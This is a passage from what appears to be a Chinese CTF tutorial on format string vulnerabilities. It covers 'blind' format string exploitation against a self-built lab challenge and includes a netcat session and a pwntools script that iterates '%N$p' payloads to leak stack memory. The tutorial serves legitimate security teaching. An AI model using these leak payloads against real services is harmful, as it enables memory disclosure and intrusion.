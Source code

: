 需要注意的是，這樣並不能穩定得到 shell，因爲我們一次性輸入了太長的字符串。但是我們又沒有辦法在前面控制所想要輸入的地址。只能這樣了。

爲什麼需要打印這麼多呢？因爲格式化字符串不在棧上，所以就算我們得到了需要更改的ebp的地址，也沒有辦法去把這個地址寫到棧上，利用$符號去定位他；因爲沒有辦法定位，所以沒有辦法用l\ll等方式去寫這個地址，所以只能打印很多。

## 格式化字符串盲打

### 原理

所謂格式化字符串盲打指的是隻給出可交互的 ip 地址與端口，不給出對應的 binary 文件來讓我們進行 pwn，其實這個和 BROP 差不多，不過 BROP 利用的是棧溢出，而這裏我們利用的是格式化字符串漏洞。一般來說，我們按照如下步驟進行

- 確定程序的位數
- 確定漏洞位置 
- 利用

由於沒找到比賽後給源碼的題目，所以自己簡單構造了兩道題。

### 例子1-泄露棧

源碼和部署文件均放在了對應的文件夾 [fmt_blind_stack](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/user-mode/fmtstr/blind_fmt_stack) 中。

#### 確定程序位數

我們隨便輸入了 %p，程序回顯如下信息

```shell
➜  blind_fmt_stack git:(master) ✗ nc localhost 9999
%p
0x7ffd4799beb0
G�flag is on the stack%                          
```

告訴我們 flag 在棧上，同時知道了該程序是 64 位的，而且應該有格式化字符串漏洞。

#### 利用

那我們就一點一點測試看看

```python
from pwn import *
context.log_level = 'error'


def leak(payload):
    sh = remote('127.0.0.1', 9999)
    sh.sendline(payload)
    data = sh.recvuntil('\n', drop=True)
    if data.startswith('0x'):
        print p64(int(data, 16))
    sh.close()


i = 1
while 1:
    payload = '%{}$p'.format(i)
    leak(payload)
    i += 1

```
